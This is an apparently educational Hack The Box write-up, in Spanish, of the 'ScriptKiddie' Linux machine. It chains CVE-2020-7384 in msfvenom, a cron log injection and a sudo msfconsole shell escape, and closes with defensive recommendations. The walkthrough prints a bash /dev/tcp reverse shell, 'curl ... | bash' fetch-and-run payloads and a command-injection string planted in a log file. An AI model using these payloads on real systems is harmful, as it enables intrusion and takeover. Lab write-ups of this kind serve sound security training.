# ScriptKiddie — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** 0xdf  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Werkzeug/Flask · **CVE-2020-7384** (msfvenom APK template command injection) · APK malicioso · Reverse shell · Pivot lateral vía inyección en log leído por script en cron · sudo NOPASSWD sobre `msfconsole` · GTFOBins `msfconsole !` → root

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — CVE-2020-7384 (msfvenom APK template injection)](#3-acceso-inicial--cve-2020-7384-msfvenom-apk-template-injection)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.X.X
```



Salida obtenida:

```text
64 bytes from 10.129.X.X: icmp_seq=1 ttl=63 time=32.3 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP, suficiente para confirmar que el host está activo. El valor `TTL=63` es revelador: los sistemas Linux inician el TTL en 64, por lo que un valor cercano (63 tras un salto de red) indica que estamos frente a una máquina **Linux**.

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.X.X -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
22/tcp   open  ssh
5000/tcp open  upnp
```

> 💡 El puerto `5000/tcp` es el clásico *default* del servidor de desarrollo de **Flask/Werkzeug** en Python. Cuando aparece junto a un SSH estándar y sin más servicios, casi siempre estamos ante una **aplicación Python ligera** desplegada en modo debug.

---

### Enumeración detallada

Una vez identificados los puertos abiertos, lanzamos un escaneo más profundo con detección de versiones y scripts NSE únicamente sobre ellos.

```bash
nmap -sCV -T5 -p22,5000 10.129.X.X -oN Targeted
```



Salida relevante:

```text
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

> 💡 `Werkzeug 0.16.1` + `Python 3.8.5` es una firma de **Flask en modo desarrollo** —un backend que **nunca debería exponerse a Internet**, ya que puede permitir *debug console* PIN, uso del stack de excepciones, etc.—. El título de la página (`k1d'5 h4ck3r t00l5`) sugiere una interfaz web de herramientas de pentesting: es el punto de entrada evidente.

---

## 2. Enumeración del servicio web

Accedemos desde el navegador al puerto `5000`.

```text
http://10.129.X.X:5000
```



La página **k1d'5 h4ck3r t00l5** expone tres módulos que envuelven herramientas de pentesting:

| Módulo | Descripción | Backend probable |
|---|---|---|
| **nmap** | *"scan top 100 ports on an ip"* — un campo `ip` y un botón `scan` | `nmap --top-ports 100 <ip>` |
| **payloads** | *"venom it up - gen rev tcp meterpreter bins"* — selector `os`, `lhost`, subida opcional de fichero *template* y botón `generate` | `msfvenom -p .../reverse_tcp LHOST=<lhost> -x <template>` |
| **sploits** | *"searchsploit FTW"* — un campo `search` que dispara `searchsploit` | `searchsploit <search>` |

---

### Sondeo funcional de cada módulo

Probamos primero el módulo **nmap** contra la IP interna `127.0.0.1` para confirmar que el backend efectivamente delega en la herramienta nativa:



Devuelve la salida real de `nmap`, evidenciando la ejecución local en el servidor.

El módulo **payloads** con `LHOST=127.0.0.1` genera un fichero `.exe` descargable —`msfvenom` está corriendo también en el backend—:



Datos importantes reflejados en la respuesta:

```text
payload:  windows/meterpreter/reverse_tcp
LHOST:    127.0.0.1
LPORT:    4444
template: None
download: abd79fdac13a.exe
expires:  5 mins
```

Y el módulo **sploits** ejecuta `searchsploit` sobre el término introducido:



Confirmado el patrón: los tres módulos delegan directamente en binarios locales. Cualquier fallo público conocido de esas herramientas es potencialmente explotable desde el navegador.

---

### Búsqueda de vulnerabilidades conocidas — `msfvenom`

Consultamos `searchsploit` para vulnerabilidades públicas de `msfvenom`:

```bash
searchsploit msfvenom
```



Resultado clave:

```text
Metasploit Framework 6.0.11 - msfvenom APK template command injection
    | multiple/local/49491.py
```

Estamos ante **CVE-2020-7384**: `msfvenom` permite pasar un fichero APK como *template* con `-x`. Antes de firmarlo, el proceso invoca `apktool` que a su vez usa `keytool` para extraer metadatos del `META-INF/CERT.RSA`. Si el atacante inyecta un `dname` malicioso en ese certificado, `keytool` interpreta esos campos como parámetros de shell y ejecuta comandos arbitrarios en el contexto del usuario que corre `msfvenom`.

> 💡 CVE-2020-7384 es un ejemplo canónico de ***second-order command injection***: el fallo no está en el input directo del usuario, sino en un dato de segundo nivel (los metadatos del certificado dentro del APK) que llega a una herramienta downstream (`keytool`) sin sanear. Los sanitizadores del primer eslabón (`msfvenom`) no detectan el problema porque el veneno viaja incrustado en un binario aparentemente inofensivo.

---

## 3. Acceso inicial — CVE-2020-7384 (msfvenom APK template injection)

### Preparación del exploit

Copiamos el exploit de searchsploit al directorio de trabajo:

```bash
searchsploit -m multiple/local/49491.py
```

Inspeccionamos el script:



El exploit construye un APK con un fichero `CERT.RSA` cuyo `dname` contiene un payload en base64 que `keytool` ejecutará vía `sh -c`. La variable `payload` al principio del script define el comando a inyectar.

---

### Payload — descarga y ejecución de una reverse shell

En vez de escribir un *one-liner* directamente en el `dname` (que sufre de *badchars* al pasar por `keytool`), la técnica recomendada es alojar un script en nuestro HTTP server y ejecutarlo con `curl | bash`. Preparamos el script `index.html`:



```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.X.X/443 0>&1
```

Y servimos el directorio por HTTP en el puerto 80:

```bash
sudo python3 -m http.server 80
```



Editamos el exploit `49491.py` y cambiamos la variable `payload` para que descargue y ejecute nuestro script:

```python
payload = 'curl http://10.10.X.X:80 | bash'
```



Ponemos también a la escucha `netcat` en el puerto de la reverse shell:

```bash
nc -lvnp 443
```



---

### Generación del APK malicioso

Ejecutamos el exploit para producir `evil.apk`:

```bash
python3 49491.py
```



Fragmentos relevantes de la salida:

```text
[+] Payload: curl http://10.10.X.X:80 | bash
[+] Generating 2048-bit RSA key pair and self-signed certificate (SHA384withRSA)...
[+] Done! apkfile is at /tmp/tmpzf5hjdn/evil.apk
Do: msfvenom -x /tmp/tmpzf5hjdn/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

El fichero `evil.apk` contiene un `dname` en su certificado que dispara `curl http://10.10.X.X:80 | bash` cuando `keytool` lo procese.

---

### Disparo desde la web

Volvemos al panel de **payloads**, seleccionamos `os: android`, ponemos cualquier `lhost` (127.0.0.1 sirve) y adjuntamos `evil.apk` como *template file*:



Pulsamos **generate**. El backend invoca `msfvenom -x evil.apk ...` que, al procesar el template, ejecuta el payload inyectado. Inmediatamente, nuestro `nc` recibe la conexión:



```text
connect to [10.10.X.X] from (UNKNOWN) [10.129.X.X] 37990
bash: cannot set terminal process group (937): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$
```

✅ Shell interactiva como `kid`, el usuario que ejecuta la aplicación Flask.

---

## 4. Obtención de shell

### Reconocimiento del entorno post-acceso

Enumeramos los usuarios con `home` en el sistema:

```bash
ls /home/
```

Encontramos dos usuarios: `kid` (nosotros) y `pwn`. En `/home/pwn/` disponemos de acceso de lectura y descubrimos el script **`scanlosers.sh`**:



```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d ' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [ $(wc -l < $log) -gt 0 ]; then echo -n > $log; fi
```

Analizamos el flujo:

| Paso | Efecto |
|---|---|
| `cat $log \| cut -d ' ' -f3-` | Lee el fichero de log `/home/kid/logs/hackers` y toma **desde el tercer campo hasta el final** de cada línea, tratándolo como "IP" |
| `while read ip; do sh -c "nmap ... ${ip} ..."` | Cada "IP" se **concatena** dentro de una `sh -c` sin sanear |
| Ejecutor | El script pertenece a `pwn`; una tarea de `cron` lo ejecuta cada pocos minutos como **usuario `pwn`** |
| Fuente del log | El log `/home/kid/logs/hackers` es **escribible por nosotros** (`kid`) |

Se trata de una **inyección de comandos de segundo orden**: nosotros escribimos, `pwn` ejecuta.

> 💡 El patrón `sh -c "... ${var} ..."` con interpolación directa en un contexto de shell es equivalente a un `eval`. Cualquier metacarácter en `${var}` rompe la cadena y permite ejecutar comandos arbitrarios como el propietario del proceso. En este caso, además, se ejecuta en el `while read` a través del pipe, un patrón muy sutil que suele pasar desapercibido en las revisiones de código.

---

### Pivot a `pwn` mediante inyección en el log

Construimos una línea de log donde el "campo 3" (la supuesta IP) contiene una inyección:

```bash
echo "10.10.14.29; whoami | curl http://10.10.X.X | bash #" > /home/kid/logs/hackers
```



Cuando `cron` dispare `scanlosers.sh`, la cadena que llegará al `sh -c` será:

```bash
sh -c "nmap --top-ports 10 -oN recon/10.10.14.29; whoami | curl http://10.10.X.X | bash #.nmap 10.10.14.29; whoami | ... 2>&1 >/dev/null"
```

El `;` cierra el `nmap` y ejecuta a continuación `whoami | curl http://10.10.X.X | bash`, que reescribe `index.html` sirvió antes con una nueva reverse shell (o simplemente reutilizamos el listener) y esta vez conecta como **`pwn`**.

Ponemos de nuevo a la escucha `nc -lvnp 443` y esperamos al ciclo del cron:



```text
connect to [10.10.X.X] from (UNKNOWN) [10.129.X.X] 38186
pwn@scriptkiddie:~$
```

---

### Escalada de privilegios — `sudo` + msfconsole (GTFOBins)

Comprobamos los permisos `sudo` como `pwn`:

```bash
sudo -l
```



Salida:

```text
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:...

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

`pwn` puede lanzar **`msfconsole`** como `root` sin contraseña. Metasploit dispone de un intérprete propio con la funcionalidad `!<comando>` para ejecutar órdenes del sistema, y —lo más importante— **hereda los privilegios de `sudo`**: cualquier proceso hijo se ejecuta como `root`.

Lanzamos msfconsole con `sudo`:

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```



Dentro del prompt `msf6 >` invocamos una shell privilegiada:

```text
msf6 > bash -p
```



Resultado:

```text
[*] exec: bash -p

root@scriptkiddie:/home/pwn# whoami
root
```

> 💡 Este vector aparece documentado en **GTFOBins** bajo el binario `msfconsole`. El caso general: cualquier CLI interactiva (base de datos, motor de scripting, gestor de configuración) que ofrezca un *escape a shell* combinada con `sudo NOPASSWD` produce escalada instantánea. `bash -p` (privileged) preserva la EUID heredada, imprescindible para no perder los privilegios al arrancar la shell.

✅ Compromiso total de la máquina.

---

## 5. Post-explotación y flags

Con privilegios de `root`, solo queda localizar las flags del sistema.

### Flag de usuario

La flag de usuario reside en el `home` del usuario `kid`, la primera cuenta que obtuvimos:

```bash
cat /home/kid/user.txt
```

### Flag de root

La flag de administrador se encuentra en el directorio personal de `root`:

```bash
cat /root/root.txt
```

✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina demuestra cómo una cadena de decisiones de diseño desafortunadas —envolver herramientas ofensivas en un frontend web, dejar hooks entre usuarios sin sanear, conceder `sudo` sobre CLIs interactivas— compromete el sistema entero.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Aplicación Flask/Werkzeug expuesta | Puerto 5000 en modo desarrollo | Superficie de ataque amplificada |
| Wrapper web sobre `msfvenom` sin *sandbox* | Módulo *payloads* | Aceptación de APKs arbitrarios como template |
| **CVE-2020-7384** en `msfvenom` (< 6.0.12) | `keytool` procesando `dname` malicioso | RCE como `kid` desde el navegador |
| Script del usuario `pwn` interpolando input externo | `/home/pwn/scanlosers.sh` | *Second-order command injection* → pivot lateral a `pwn` |
| Log escribible por `kid` leído por `pwn` en cron | `/home/kid/logs/hackers` | Canal de comunicación entre usuarios sin *isolation* |
| `sudo NOPASSWD` sobre `msfconsole` | `/etc/sudoers.d/pwn` | Escape a shell (`!bash` / `bash -p`) → root |

---

## Recomendaciones defensivas

- No exponer nunca `Werkzeug`/Flask en modo desarrollo: usar `gunicorn`, `uwsgi` o un servidor de aplicaciones adecuado detrás de un reverse proxy.
- No envolver herramientas ofensivas (`msfvenom`, `nmap`, `searchsploit`) en interfaces web accesibles sin autenticación: si es necesario, ejecutar en contenedores efímeros con `seccomp`/`AppArmor`.
- Mantener Metasploit Framework actualizado (≥ 6.0.12) para mitigar CVE-2020-7384; en general, aplicar parches en cualquier dependencia crítica.
- Evitar `sh -c "... ${var} ..."` con datos no confiables. Usar arrays y `--` como separador (`nmap -- "$ip"`), o listas blancas de caracteres válidos, o parametrización real.
- No permitir que un usuario escriba en un fichero que otro usuario ejecuta/interpreta desde `cron`: aislar canales, usar colas con validación estricta, o directorios con `sticky bit` sobre datos estructurados.
- Nunca conceder `sudo NOPASSWD` sobre CLIs interactivas con escape a shell (`msfconsole`, `vi`, `less`, `awk`, motores SQL, REPLs). Consultar siempre **GTFOBins** antes de firmar una entrada en `sudoers`.
- Aplicar el principio de **mínimo privilegio**: el usuario `pwn` no necesitaba `root` para su tarea de reconocimiento; bastaría con `nmap` como usuario normal.
- Monitorizar eventos como escritura en `/home/*/logs/*`, ejecución de `sudo msfconsole`, o llamadas anómalas a `keytool` fuera del ciclo de compilación.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
